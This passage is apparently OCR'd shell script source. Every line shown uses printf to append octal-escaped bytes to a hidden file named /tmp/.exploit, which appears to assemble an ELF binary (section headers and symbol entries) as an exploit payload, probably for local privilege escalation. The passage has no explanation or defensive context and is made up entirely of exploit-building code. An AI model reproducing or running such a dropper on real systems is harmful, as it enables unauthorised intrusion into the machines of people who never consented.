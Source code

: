     printf "\004\000\000\000\000\000\000\000\165\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\002\000\000\000\240\004\000\000\240\004\000\000\012\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\001\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\175\000\000\000\001\000\000\000\002\000\000\000\254\004\000\000" >>/tmp/.exploit
    printf "\254\004\000\000\004\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\000\000\000\000\207\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\003\000\000\000\260\024\000\000\260\004\000\000\014\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\004\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\216\000\000\000\001\000\000\000\003\000\000\000\274\024\000\000" >>/tmp/.exploit
    printf "\274\004\000\000\010\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\000\000\000\000\225\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\003\000\000\000\304\024\000\000\304\004\000\000\004\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\004\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\232\000\000\000\001\000\000\000\003\000\000\000\310\024\000\000" >>/tmp/.exploit
    printf "\310\004\000\000\004\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\000\000\000\000\247\000\000\000\006\000\000\000" >>/tmp/.exploit
    printf "\003\000\000\000\314\024\000\000\314\004\000\000\300\000\000\000" >>/tmp/.exploit
    printf "\003\000\000\000\000\000\000\000\004\000\000\000\010\000\000\000" >>/tmp/.exploit
    printf "\260\000\000\000\001\000\000\000\003\000\000\000\214\025\000\000" >>/tmp/.exploit
    printf "\214\005\000\000\014\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\004\000\000\000\265\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\003\000\000\000\230\025\000\000\230\005\000\000\034\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\004\000\000\000\004\000\000\000" >>/tmp/.exploit
    printf "\276\000\000\000\010\000\000\000\003\000\000\000\264\025\000\000" >>/tmp/.exploit
    printf "\264\005\000\000\010\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\000\000\000\000\303\000\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\264\005\000\000\346\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\001\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\021\000\000\000\003\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\232\006\000\000\314\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\001\000\000\000\000\000\000\000\001\000\000\000\002\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\170\013\000\000\140\003\000\000" >>/tmp/.exploit
    printf "\031\000\000\000\053\000\000\000\004\000\000\000\020\000\000\000" >>/tmp/.exploit
    printf "\011\000\000\000\003\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\330\016\000\000\241\001\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\001\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\000\000\000\000\264\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\001\000\000\000\000\000\360\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\002\000\000\000\000\000\260\001\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\003\000\000\000\000\000\066\002\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\004\000\000\000\000\000\120\002\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\005\000\000\000\000\000\200\002\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\006\000\000\000\000\000\250\002\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\007\000\000\000\000\000\310\002\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\010\000\000\000\000\000\340\002\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\011\000\000\000\000\000\060\003\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\012\000\000\000\000\000\204\004\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\013\000\000\000\000\000\240\004\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\014\000\000\000\000\000\254\004\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\015\000\000\000\000\000\260\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\016\000\000\000\000\000\274\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\017\000\000\000\000\000\304\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\020\000\000\000\000\000\310\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\021\000\000\000\000\000\314\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\022\000\000\000\000\000\214\025\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\023\000\000\000\000\000\230\025\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\024\000\000\000\000\000\264\025\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\025\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\003\000\026\000\001\000\000\000\060\003\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\002\000\012\000\021\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\004\000\361\377\034\000\000\000\260\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\000\016\000\052\000\000\000\274\024\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\001\000\017\000\070\000\000\000\304\024\000\000" >>/tmp/.exploit